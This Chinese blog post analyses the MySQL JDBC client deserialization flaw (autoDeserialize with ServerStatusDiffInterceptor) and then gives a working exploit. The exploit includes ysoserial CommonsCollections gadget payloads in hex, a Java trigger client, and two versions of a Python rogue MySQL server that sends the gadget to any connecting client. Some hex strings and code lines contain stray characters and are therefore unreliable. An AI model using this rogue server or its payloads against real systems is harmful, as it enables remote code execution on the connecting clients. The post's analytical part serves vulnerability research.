

我终于更新博客了……
漏洞原理
当jdbc客户端连接到远程mysql服务器的时候，双方在连接过程中会进行一些数据交换并执行一些查询语句，比如SHOW SESSION STATUS，在使用特定构造的jdbc链接去连接mysql服务器时，SHOW SESSION STATUS的返回数据会在客户端进行反序列化进而触发RCE代码。
根据 http://m0d9.me/2021/04/20/Jdbc-%E7%A2%8E%E7%A2%8E%E5%BF%B5%E4%BA%8C%EF%BC%9AMySQL-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/ 中的描述，可以通过以下方式手动触发反序列化，注意这不是在触发jdbc反序列化漏洞，但是在后面利用的时候有用。
CREATE DATABASE IF NOT EXISTS test;
CREATE TABLE IF NOT EXISTS test.eviltable
(
`id` int(11) unsigned NOT NULL AUTO_INCREMENT,
evil blob,
PRIMARY KEY (`id`)
);
set @obj=0xaced0005737200136a6176612e7574696c2e486173687461626c6513bb0f25214ae4b803000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000877080000000b000000027372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e747400124c6a6176612f6c616e672f4f626a6563743b7870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001700000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e00177371007e000f7571007e001400000002707571007e001400000000740006696e766f6b657571007e001700000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00147371007e000f757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000e746f756368202f746d702f636337740004657865637571007e00170000000171007e001c7371007e000a737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000c77080000001000000001740002797971007e002f787871007e002f7371007e000271007e00077371007e00303f4000000000000c770800000010000000017400027a5a71007e002f78787371007e002d0000000278;
INSERT INTO test.eviltable(`evil_2`) VALUES (@obj);
该数据是由执行以下命令生成的
java8 -jar ysoserial.jar CommonsCollections7 "touch /tmp/cc7" | xxd -ps -c 200 | tr -d '\n'
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
public class main {
public static void main(String[] args) throws Exception{
Class.forName("com.mysql.cj.jdbc.Driver");
String jdbc_url = "jdbc:mysql://192.168.31.119:3306/test?" +
"autoDeserialize=true" +
"&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";
Connection con = DriverManager.getConnection(jdbc_url,"xxxx","toor");
PreparedStatement ptmt = con.prepareStatement("select evil from eviltable ;");
ResultSet rs = ptmt.executeQuery();
rs.next();
rs.getObject(1);
}
}
启动wireshark进行抓包，设置过滤规则mysql

图中选中的数据包就是执行select evil from eviltable ;后返回的数据，也就是刚才生成的数据。将其复制出来，并删除mysql之外的数据，得到如下数据
01000001013800000203646566087365637572697479096576696c7461626c65096576696c7461626c65046576696c046576696c0c3f00ffff0000fc900000000003050003fc0005aced0005737200136a6176612e7574696c2e486173687461626c6513bb0f25214ae4b803000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000877080000000b000000027372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e747400124c6a6176612f6c616e672f4f626a6563743b7870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001700000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e00177371007e000f7571007e001400000002707571007e001400000000740006696e766f6b657571007e001700000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00147371007e000f757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000e746f756368202f746d702f636337740004657865637571007e00170000000171007e001c7371007e000a737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000c77080000001000000001740002797971007e002f787871007e002f7371007e000271007e00077371007e00303f4000000000000c770800000010000000017400027a5a71007e002f78787371007e002d000000027807000004fe000022000000
该数据在jdbc端被反序列化后触发了漏洞。
这只是普通的反序列化，要在jdbc连接的过程中触发反序列化，首先来看com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor.populateMapWithSessionStatusValues()
public class ServerStatusDiffInterceptor implements QueryInterceptor {
...
public <T extends Resultset> T postProcess(Supplier<String> sql, Query interceptedQuery, T originalResultSet, ServerSession serverSession) {
this.populateMapWithSessionStatusValues(this.postExecuteValues);
this.log.logInfo("Server status change for query:\n" + Util.calculateDifferences(this.preExecuteValues, this.postExecuteValues));
return null;
}
private void populateMapWithSessionStatusValues(Map<String, String> toPopulate) {
Statement stmt = null;
ResultSet rs = null;
try {
try {
toPopulate.clear();
stmt = this.connection.createStatement();
rs = stmt.executeQuery("SHOW SESSION STATUS");
ResultSetUtil.resultSetToMap(toPopulate, rs);
} finally {
if (rs != null) {
rs.close();
}
if (stmt != null) {
stmt.close();
}
}
} catch (SQLException var8) {
throw ExceptionFactory.createException(var8.getMessage(), var8);
}
}
...
}
ServerStatusDiffInterceptor是一个实现了QueryInterceptor接口的拦截器，当queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor的时候就会经过这个拦截器，并调用这个拦截器的preProcess方法和 postProcess方法。
可以看到SHOW SESSION STATUS语句请求的结果进入了 com.mysql.cj.jdbc.util.ResultSetUtil 的 resultSetToMap方法中。跟进看看
public class ResultSetUtil {
public ResultSetUtil() {
}
public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
while(rs.next()) {
mappedValues.put(rs.getObject(1), rs.getObject(2));
}
}
...
}
调用了 com.mysql.cj.jdbc.result.ResultSetImpl的getObject方法
public Object getObject(int columnIndex) throws SQLException {
try {
this.checkRowPos();
this.checkColumnBounds(columnIndex);
int columnIndexMinusOne = columnIndex - 1;
if (this.thisRow.getNull(columnIndexMinusOne)) {
return null;
} else {
Field field = this.columnDefinition.getFields()[columnIndexMinusOne];
switch(field.getMysqlType()) {
case BIT:
if (!field.isBinary() && !field.isBlob()) {
return field.isSingleBit() ? this.getBoolean(columnIndex) : this.getBytes(columnIndex);
} else {
byte[] data = this.getBytes(columnIndex);
if (!(Boolean)this.connection.getPropertySet().getBooleanProperty("autoDeserialize").getValue()) {
return data;
} else {
Object obj = data;
if (data != null && data.length >= 2) {
if (data[0] != -84 || data[1] != -19) {
return this.getString(columnIndex);
}
try {
ByteArrayInputStream bytesIn = new ByteArrayInputStream(data);
ObjectInputStream objIn = new ObjectInputStream(bytesIn);
obj = objIn.readObject();
objIn.close();
bytesIn.close();
} catch (ClassNotFoundException var13) {
throw SQLError.createSQLException(Messages.getString("ResultSet.Class_not_found___91") + var13.toString() + Messages.getString("ResultSet._while_reading_serialized_object_92"), this.getExceptionInterceptor());
} catch (IOException var14) {
obj = data;
}
}
return obj;
}
}
...
}
}
}
}
这里进行了一个判断，在autoDeserialize=true的情况下会对数据进行反序列化。
那么链条就会比较清晰了，接下来是怎么伪造一个mysql服务端来和jdbc客户端进行数据交互，并在客户端发送SHOW SESSION STATUS的时候将payload发送给客户端触发反序列化漏洞。这里通过观察wireshark数据包简单分析一下

首先是greeting，然后jdbc发送登陆请求，服务端返回Response OK数据，这个Response OK在后面的数据交互中多次用到，需要我们伪造的mysql服务端用来进行数据返回。在经过一些数据协商后，来到SHOW SESSION STATUS部分，我们伪造的mysql服务端就可以发送真正的payload给jdbc客户端来进行反序列化了。
漏洞利用
这里直接拿别的师傅的脚本，从https://xz.aliyun.com/t/8159#toc-1 这里拿的
# -*- coding:utf-8 -*-
#@Time : 2020/7/27 2:10
#@Author: Tri0mphe7
#@File : server.py
import socket
import binascii
import os
greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"
def receive_data(conn):
data = conn.recv(1024)
print("[*] Receiveing the package : {}".format(data))
return str(data).lower()
def send_data(conn,data):
print("[*] Sending the package : {}".format(data))
conn.send(binascii.a2b_hex(data))
def get_payload_content():
# file文件的内容使用ysoserial生成的 使用规则 java -jar ysoserial [common7那个] "calc" > a
file= r'a'
if os.path.isfile(file):
with open(file, 'rb') as f:
payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')
print("open successs")
else:
print("open false")
#calc
payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'
return payload_content
# 主要逻辑
def run():
while 1:
conn, addr = sk.accept()
print("Connection come from {}:{}".format(addr[0],addr[1]))
# 1.先发送第一个 问候报文
send_data(conn,greeting_data)
while True:
# 登录认证过程模拟 1.客户端发送request login报文 2.服务端响应response_ok
receive_data(conn)
send_data(conn,response_ok_data)
#其他过程
data=receive_data(conn)
#查询一些配置信息,其中会发送自己的 版本号
if "session.auto_increment_increment" in data:
_payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c210033000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c210000000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000002600000e036465660000001071756572795f63616368655f73697a65000c3f001500000008a0000000002600000f036465660000001071756572795f63616368655f74797065000c21的0009000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f001500000008a000000000020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c013107343139343330340236300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
send_data(conn,_payload)
data=receive_data(conn)
elif "show warnings" in data:
_payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
send_data(conn, _payload)
data = receive_data(conn)
if "set names" in data:
send_data(conn, response_ok_data)
data = receive_data(conn)
if "set character_set_results" in data:
send_data(conn, response_ok_data)
data = receive_data(conn)
if "show session status" in data:
mysql_data = '0100000102'
mysql_data += '1a000002036465660001630163016301630c3f00ffff0000fc9000000000'
mysql_data += '1a000003036465660001630163016301630c3f00ffff0000fc9000000000'
# 为什么我加了EOF Packet 就无法正常运行呢？？
# 获取payload
payload_content=get_payload_content()
# 计算payload长度
payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
payload_length_hex = payload_length[2:4] + payload_length[0:2]
# 计算数据包长度
data_len = str(hex(len(payload_content)//2 + 4)).replace('0x', '').zfill(6)
data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
mysql_data += data_len_hex + '04' + 'fbfc'+ payload_length_hex
mysql_data += str(payload_content)
mysql_data += '07000005fe000022000100'
send_data(conn, mysql_data)
data = receive_data(conn)
if "show warnings" in data:
payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535show session status441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
send_data(conn, payload)
break
if __name__ == '__main__':
HOST ='0.0.0.0'
PORT = 3309
sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#当socket关闭后，本地端用于该socket的端口号立刻就可以被重用.为了实验的时候不用等待很长时间
sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sk.bind((HOST, PORT))
sk.listen(1)
print("start fake mysql server listening on {}:{}".format(HOST,PORT))
run()
经过之前的分析，这个脚本是不难看懂的，但是该工具在我这里使用的时候无法复现，原因在于show session status之后发送的payload有误，那怎么办呢？毕竟要修改这部分代码是需要对mysql发送的数据包格式进行一个系统的了解和认识的，关于数据包格式，在https://xz.aliyun.com/t/8159#toc-1 这篇文章中有分析到，但我无意对数据包格式作深究，于是用了一个比较偷懒的办法。
还记得之前用jdbc将payload请求回本地并进行手动反序列化时候的操作吗，我们可以从wireshark中将那个数据包中的数据copy下来，删除mysql数据以外的数据，然后加入到脚本中，那么脚本进过修改之后如下所示。
# -*- coding:utf-8 -*-
#@Time : 2020/7/27 2:10
#@Author: Tri0mphe7
#@File : server.py
import socket
import binascii
import os
greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"
def receive_data(conn):
data = conn.recv(1024)
print("[*] Receiveing the package : {}".format(data))
return str(data).lower()
def send_data(conn,data):
print("[*] Sending the package : {}".format(data))
conn.send(binascii.a2b_hex(data))朋友他好哦你
# 主要逻辑
def run():
while 1:
conn, addr = sk.accept()
print("Connection come from {}:{}".format(addr[0],addr[1]))
# 1.先发送第一个 问候报文
send_data(conn,greeting_data)
while True:
# 登录认证过程模拟 1.客户端发送request login报文 2.服务端响应response_ok
receive_data(conn)
send_data(conn,response_ok_data)
#其他过程
data=receive_data(conn)
#查询一些配置信息,其中会发送自己的 版本号
if "session.auto_increment_increment" in data:
_payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c210033000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c210000000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000002600000e036465660000001071756572795f63616368655f73697a65000c3f001500000008a0000000002600000f036465660000001071756572795f63616368655f74797065000c210009000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f001500000008a000000000020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c013107343139343330340236300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
send_data(conn,_payload)
data=receive_data(conn)
elif "show warnings" in data:
_payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
send_data(conn, _payload)
data = receive_data(conn)
if "set names" in data:
send_data(conn, response_ok_data)
data = receive_data(conn)
if "set character_set_results" in data:
send_data(conn, response_ok_data)
data = receive_data(conn)
if "show session status" in data:
mydata = '01000001013800000203646566087365637572697479096576696c7461626c65096576696c7461626c65046576696c046576696c0c3f00ffff0000fc900000000003050003fc0005aced0005737200136a6176612e7574696c2e486173687461626c6513bb0f25214ae4b803000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000877080000000b000000027372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e747400124c6a6176612f6c616e672f4f626a6563743b7870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001700000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e00177371007e000f7571007e001400000002707571007e001400000000740006696e766f6b657571007e001700000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00147371007e000f757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000e746f756368202f746d702f636337740004657865637571007e00170000000171007e001c7371007e000a737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000c77080000001000000001740002797971007e002f787871007e002f7371007e000271007e00077371007e00303f4000000000000c770800000010000000017400027a5a71007e002f78787371007e002d000000027807000004fe000022000000'
send_data(conn, mydata)
data = receive_data(conn)
if "show warnings" in data:
payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
send_data(conn, payload)
break
if __name__ == '__main__':
HOST ='0.0.0.0'
PORT = 3309
sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#当socket关闭后，本地端用于该socket的端口号立刻就可以被重用.为了实验的时候不用等待很长时间
sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sk.bind((HOST, PORT))
sk.listen(1)
print("start fake mysql server listening on {}:{}".format(HOST,PORT))
run()
诚然，这种方法是没有上一个脚本来得自动化的，但是比较方便复现。